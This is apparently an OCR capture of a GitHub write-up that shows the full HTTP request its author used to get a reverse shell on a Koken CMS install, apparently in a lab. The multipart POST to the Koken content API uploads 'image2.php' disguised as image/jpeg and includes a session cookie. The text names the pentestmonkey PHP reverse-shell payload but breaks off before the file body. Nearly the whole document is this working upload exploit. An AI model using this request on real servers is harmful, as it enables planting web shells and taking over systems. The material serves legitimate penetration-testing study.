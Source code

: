 
Here is the full content of the request I used to gain a reverse shell using the pentest monkey reverse php payload
```web request
POST /koken/api.php?/content HTTP/1.1
Host: 192.168.1.175
Content-Length: 5081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryusjPIBaZCnX5hxKK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
x-koken-auth: cookie
Accept: */*
Origin: http://192.168.1.175
Referer: http://192.168.1.175/koken/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: koken_session_ci=pMO4iMnsQwiJxWixw5Jz7ftmkG%2BplyOScVpUbv%2FCGDCvooUs078ZBfklrkuoOeP9QoiZ7QAZYyJi1Z4%2BDD65M9rt4HS5IGwIjv6UKepVgnSup5CpSrlSJkPj9LDmkOrsc49s%2FcJJ%2BW1XbX5PzU8qjL8oMRgjkCKNcNVRcstVXZbuTpIuMx3PL6fLDoGSHx%2Ba5n4iRso%2By%2Bv9tAyYwKmGlCfiix3qosC55l7xVEQtpK7fABXH6EhSPwqlqwex4e1J5rw5a7Ww4kqqff2h8SbPj6uKlN8VzdngfepXTIFHzSgE3LFFUi3jI%2F0DgDv5Lxre338SmpmjYo1b4mivFOUEAwdd8eiYyzObZ33Tw%2Br%2FDSGLwXRASyAYtGNQHYfecefXuU5Hy7aI1G2ZWLDT2aa3uMHgCCw5kBF9TsQPxq%2BclmjUzuGgsnDxAbNpz19OCmRDLiKo3MOxsweYOCmKHan3Iz9IbUMmUZud8KTDHy0rRDxJULgKpCJ5qBGDZz3qeVghORm9lgFLgD9xK0hytEdG49qzAVA18p5bbE7aJFb4q68tQImVuEuUZYcPWTdPG2YX82fNIygIsgQKehc%2FmTdF91KAeg950LpkU3lEDvpIAC%2Fyjub6m%2B%2BZnoco%2FN00O7FTuVh11ezRoipZ6nueXxrAht6dW8jiCrVynT4TwJxbTXMh1yM3dtIWqXvDoDjhO7iAoFVRhOfMH1mWLG4b46W4a2NaNd72jnFNaW2pzoaEA2XmxvPFJd5OQLd9qps1kV%2BYViCNXo5mc4WOC8sUDmYM4OUMN3Ml%2FkRk8jKNW9nx3sDWK%2FoRRUqGk5NjEPCx13k5r%2FE0FbVyICA%2B56qjdvErUM5g1SQ0LXsKkyQaa0opfNFBnAJR7vBzpHKj5Y2M1Pj9fbX7cnJpdRGI%2FdudnK6AONCmFp7%2BlVIzBL6pnVyrl1fsH67d3ugHXegt7YG%2F0wLSTSa4UgZD%2FrHKoP1dyIZ0zNYjAw9mOAbfcJyBBQkG5MknhhAY9eNj5DWZ8%2FMTyJftq1dKI0zQje1f0aseN5XDrh6W4NN68vnUzm0sHIvEWPfNUM7SGgnOPuEiPz35%2BODeZhDyHtEWLCEYu8qcDpztbXLpjiaYBfRDrHlOsauvT15cov%2FcKUXC4HTYC40zK8TwFCwIskL%2FE4no21DJ0%2BRjKoC%2BgAL%2BMKOG2qFJRdnrmHJvIWJ6gTpR%2B1pzrmbeuqwzJlk%2FiBRFR7uPMgbKpDLLvJU2YdunN5GgHmjYBsTrEd68xcqu%2BqE8b%2BEx9zdFvcafWNDfYrgZM%2BodGklnH1FtlZiVST2OPoYffKEbXYYVgX2Bag4qRyd%2FtyUm3d2AqFAi622e869b7becdd70db4afe942458321b54fc5d34
Connection: close

------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="name"

image2.php
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="chunk"

0
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="chunks"

1
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="upload_session_start"

1656460957
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="visibility"

public
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="license"

all
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="max_download"

none
------WebKitFormBoundaryusjPIBaZCnX5hxKK
Content-Disposition: form-data; name="file"; filename="image2.php"
Content-Type: image/jpeg
```